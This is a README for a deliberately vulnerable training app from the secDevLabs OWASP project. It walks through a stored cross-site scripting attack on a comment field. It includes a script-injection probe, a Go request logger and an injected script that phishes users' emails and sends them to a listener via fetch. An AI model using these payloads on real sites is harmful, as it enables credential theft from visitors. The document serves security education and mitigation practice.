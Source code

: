 # Comment-killer

<p align="center">
    <img src="images/img1.png"/>
</p>

Comment-killer is a simple ReactJS app, which has a Injection (XSS) vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker] and [Docker Compose][Docker Compose]. After forking [secDevLabs][secDevLabs], you must type the following commands to start:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:

<p align="center">
    <img src="images/img2.png"/>
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide][guide] if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    <img src="images/img3.png"/>
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    <img src="images/img4.png"/>
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

<a name="Sol"></a>

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[Docker]: https://docs.docker.com/get-docker/
[Docker Compose]: https://docs.docker.com/compose/install/
[guide]: https://golang.org/doc/install
[secDevLabs]: https://github.com/globocom/secDevLabs
